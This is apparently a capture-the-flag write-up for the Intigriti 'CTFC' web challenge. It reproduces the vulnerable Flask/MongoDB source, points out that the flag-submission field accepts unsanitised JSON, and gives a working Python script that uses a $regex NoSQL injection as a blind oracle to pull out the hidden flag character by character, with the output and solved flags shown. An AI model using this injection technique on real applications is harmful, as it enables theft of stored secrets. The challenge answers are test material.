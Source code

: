 # CTFC

## Description

I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺

Note: flag format is INTIGRITI{.*}

Author: Jopraveen
https://ctfc.ctf.intigriti.io 

## Source code analysis

Source code of the challenge web application is provided; main logic is written in `app.py` (slightly modified by mo to do local testing):

```python
from flask import Flask,render_template,request,session,redirect
import pymongo
import os
from functools import wraps
from datetime import timedelta
from hashlib import md5
from time import sleep

app = Flask(__name__)
app.secret_key = "key"

# db settings
client = pymongo.MongoClient('localhost',27017)
db = client.ctfdb

def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": "INTIGRITI{fake_real_flag}","points": "1500","released": "False"})

@app.route('/')
#@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',chall_1=chall_1,chall_2=chall_2)

@app.route('/register')
def register():
	return render_template('register.html')

@app.route('/login')
def login():
	return render_template('login.html')

@app.route('/logout')
def logout():
	session.clear()
	return redirect('/')

@app.route('/submit_flag',methods=['POST'])
#@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	print(f"submitted_flag: {submitted_flag}")
	query = {
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	print(f"query: {query}")
	chall_details = db.challs.find_one(
			query
	)
	print(f"chall_details: {chall_details}")
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
app.run(debug=True, host='localhost', port=5000)
```

Application home overview:

![home](./app_home.png)

The application, as reported in the description, is a mock CTF site; the CTF consists of only three challenges:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	
    db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})

	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": "INTIGRITI{fake_real_flag}","points": "1500","released": "False"})
```

The last one is not displayed in the web page and contains the actual challenge flag. Data is stored in a MongoDB database.

By intercepting one of the submission requests, we can see that the body has the following structure:

```json
{
    "_id":"_id:1",
    "challenge_flag":"test_flag"
}
```

The `_id` of the database record is the double md5 of the challenge number: we expect the `_id` of the challenge flag to be the result of the same operation computed on the value "3":

```python
>>> _id = md5(md5(str(3).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest()
>>> _id == "38026ed22fc1a91d92b5d2ef93540f20"
True
```

As we can see below, the application is vulnerable to **Blind Injection attacks**: if a correct query is executed, meaning the result is not Null, the application will return the message `"correct flag!"`:

```python
@app.route('/submit_flag',methods=['POST'])
#@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	print(f"submitted_flag: {submitted_flag}")
	query = {
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	print(f"query: {query}")
	chall_details = db.challs.find_one(
			query
	)
	print(f"chall_details: {chall_details}")
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"
```

The injection is done through the `"challenge_flag"` body parameter; no sanitization on this value is done, meaning that we can set its value to a JSON object instead of a string.

Since the injection is blind, we must define a query that retrieves the flag character by character and returns a positive output anytime a new valid character is found:

```python
payload = { "_id": "_id:3", "challenge_flag": { "$regex": "^INTIGRITI{" }}
```

We can achieve this result using the `$regex` operator by defining as pattern the flag value known so far, adding to it a new character when discovered, until the whole flag is finally obtained.


```python
import requests
import string

submit_url = "https://ctfc.ctf.intigriti.io/submit_flag"
session_cookies = {"session": "session_cookie"}

flag = "INTIGRITI{"

payload = {"_id": "_id:3", "challenge_flag": {"$regex": flag}}
regex_characters = ['.', '^', '$', '*', '+', '?', '{', '[', ']', '(', ')', '|', '\\']

while "}" not in flag:
    for c in string.printable:
        if c in regex_characters:
            continue
        
        payload["challenge_flag"]["$regex"] = "^" + flag + c
        blind_response = requests.post(submit_url, json=payload, cookies=session_cookies)
        
        if "correct flag!" in blind_response.text:
            flag += c
            print(f"found a correct character -> flag is now: {flag}")
            break

print(flag) 
```

output:

```
found a correct character -> flag is now: INTIGRITI{h
found a correct character -> flag is now: INTIGRITI{h0
found a correct character -> flag is now: INTIGRITI{h0w
found a correct character -> flag is now: INTIGRITI{h0w_
found a correct character -> flag is now: INTIGRITI{h0w_1
found a correct character -> flag is now: INTIGRITI{h0w_1s
found a correct character -> flag is now: INTIGRITI{h0w_1s_
found a correct character -> flag is now: INTIGRITI{h0w_1s_7
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_P
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PA
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAW
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWS
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSI
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIB
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBL
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBLE
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```


